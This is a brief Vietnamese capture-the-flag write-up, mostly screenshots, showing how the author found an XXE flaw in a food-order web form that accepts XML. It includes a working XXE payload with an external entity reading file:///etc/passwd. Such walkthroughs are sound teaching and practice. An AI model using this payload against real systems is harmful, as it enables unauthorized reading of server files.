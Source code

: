 ![image](https://github.com/user-attachments/assets/2cd4fb7b-af4d-4644-9a27-163bb4c988c2)

Đây là giao diện của trang web, gồm có 1 ô để nhập vào:

![image](https://github.com/user-attachments/assets/72d6086c-4b80-4ad7-bee9-9de01cea47bf)

Đây là req của cái ô nhập đấy, sau khi nhập thì nó ở dạng json:

![image](https://github.com/user-attachments/assets/4881c9b2-bb06-4977-8740-8446dcfaed5b)

Mở src code ra đọc thì thấy cái mà user nhập vào được nó mang đi để mở file và nhận ở dạng json:

![image](https://github.com/user-attachments/assets/2dc927c7-5cc8-42f9-b0cd-bc64417d51b6)

Tôi thử /etc/passwd nhưng không có ra vì nó bị filter rồi:

![image](https://github.com/user-attachments/assets/efe900a9-f8cc-4453-b132-c388376e32cb)

Đọc tiếp bên dưới thì nó chấp nhận cả xml, có thể sẽ có xxe ở đây:

![image](https://github.com/user-attachments/assets/d2844aa3-70df-4ad9-bd40-13b1cbcf0dbb)

Tôi thử dùng 
```
<order> <table_num>4353</table_num> <food>Ice Scream</food> </order>
```
thì được

![image](https://github.com/user-attachments/assets/21236397-aaa6-4c72-a67f-ae8ba213fe12)

Đổi thành 

```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><order> <table_num>4353</table_num> <food>&test;</food> </order>
```
thì nó ra hẳn cái /etc/passwd, vậy thì giờ lấy flag thôi

![image](https://github.com/user-attachments/assets/c28ba968-5230-4d34-905d-67a9135d6afe)

![image](https://github.com/user-attachments/assets/0cc1f0e2-d799-49ff-9a80-4c1950467496)



